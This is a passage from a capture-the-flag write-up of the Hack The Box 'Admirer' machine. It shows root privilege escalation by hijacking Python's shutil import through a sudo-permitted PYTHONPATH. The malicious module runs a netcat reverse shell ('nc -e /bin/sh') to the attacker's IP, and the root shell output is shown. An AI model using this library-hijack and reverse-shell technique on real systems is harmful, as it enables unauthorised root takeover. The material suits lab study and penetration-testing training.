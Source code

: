 if we open the admin_tasks.sh script, we can notice that it contains various options. Each option allows user to execute command, in all the options, we have absoulute path in when executing command, but as we can notice, in option 6, the scripts calls ```/opt/scripts/backup.py``` that is a file on which we have writing permissions.  
The file basically contains the following:  
```
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'
# old ftp directory, not used anymore
#dst = '/srv/ftp/html'
dst = '/var/backups/html'
make_archive(dst, 'gztar', src)
```
As we can see it imports a library.  
Googling around we can see that using the variable ```PYTHONPATH```, we can set a custom directory for python libraries, hence, we can craft the following script under ```/dev/shm/shutil.py``` containing the following:
```
#!/usr/bin/python3
import socket,subprocess,os

def make_archive(a, b, src):
  os.system("nc -e /bin/sh 10.10.14.24 9001")
```
Now, all we need to do is set up a listener on port 9001 and execute ```/opt/scripts/admin_tasks.sh``` script:  
```
waldo@admirer:/dev/shm$ sudo PYTHONPATH="/dev/shm" /opt/scripts/admin_tasks.sh

[[[ System Administration Menu ]]]
1) View system uptime
2) View logged in users
3) View crontab
4) Backup passwd file
5) Backup shadow file
6) Backup web data
7) Backup DB
8) Quit
Choose an option: 6
Running backup script in the background, it might take a while...
waldo@admirer:/dev/shm$ less /opt/scripts/admin_tasks.sh
```
and we gain a reverse shell as root:  
```
root@kali:~/Documents/HTB/Boxes/Admirer# nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.187] 44392
id                     
uid=0(root) gid=0(root) groups=0(root)
```
